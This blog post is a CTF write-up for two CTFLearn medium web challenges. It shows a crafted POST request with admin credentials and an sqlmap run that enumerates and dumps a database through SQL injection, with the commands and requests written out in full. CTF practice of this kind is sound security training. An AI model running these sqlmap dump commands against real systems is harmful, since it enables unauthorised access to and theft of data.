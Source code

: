 ```yaml
---
layout: post
permalink: /posts/ctflearn/web-medium
title: "CTFLearn write-up: Web (Medium)"
date: 2020-08-15 18:37
tags: ctflearn CTF web
description: "Welcome to another ctflearn write-up. Today, we are going to finish off the medium level web-based challenge"
---
```


Howdy there, welcome to another ctflearn write-up. Today, we are going to finish off the medium level web-based challenge. Without further ado, let's get started.

## 1) POST Practice

[Link: https://ctflearn.com/challenge/114](https://ctflearn.com/challenge/114)

For this task, you are required to play around with the HTTP-request header. By using the Burp suite, the request is originally in GET.

![burp](/assets/images/ctflearn/2020-08-15-web-medium/1.png)

Our objective is to change the request from GET to POST. If you look at the response, you should find the username and password for the POST request.

![burp response](/assets/images/ctflearn/2020-08-15-web-medium/2.png)

By sending the request to the repeater and change the request with the following.

```
POST /post.php HTTP/1.1
Host: 165.227.106.113
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

username=admin&password=71urlkufpsdnlkadsf
```

![post flag](/assets/images/ctflearn/2020-08-15-web-medium/3.png)

## 2) Prehashbrown

[Link: https://ctflearn.com/challenge/854](https://ctflearn.com/challenge/854)

This is another SQL injection challenge. First of all, register and login yourself. You will come across the following search bar.

![login](/assets/images/ctflearn/2020-08-15-web-medium/4.png)

This search bar is vulnerable to sqli. To make things easy, I capture the request header and saved as r.txt.

```
POST / HTTP/1.1
Host: 138.197.193.132:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.197.193.132:5000/
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Cookie: session=.eJwtzrERwzAIAMBdVLtAWCDwMjkQcElrx1Uuu6fJT_Cf9qgzr2c73uedW3u8oh0NVdNShiyl3MWRcAhG4FRmNQvupDjJuIYB7VyuFXuklJUvAy5z8M6046o1WIbmkgpP7xCGKg49xmKPKQTsgrIIQqlnjWxbu688_xmY7fsDJpIwUQ.XgoN7g.8npc5r-RdNRbhXE0vKTNozaJMPM
Connection: close
Upgrade-Insecure-Requests: 1

search=haha
```

After that, launch the sqlmap with the following command.

```
sqlmap -r r.txt --dbs --batch
```

![db](/assets/images/ctflearn/2020-08-15-web-medium/5.png)

keep enumerating the prehashbrown table with the following command.

```
sqlmap -r r.txt -D prehashbrown --table --batch
```

![table](/assets/images/ctflearn/2020-08-15-web-medium/6.png)

The flag is within the hashbrown table and we gonna dump all information from the table.

```
sqlmap -r r.txt -D prehashbrown -T hashbrown --column  --batch --dump
```

![hashbrown flag](/assets/images/ctflearn/2020-08-15-web-medium/7.png)

## Conclsuion

That's all for the short write-up on CTFlearn web in medium level. Until next time ;)
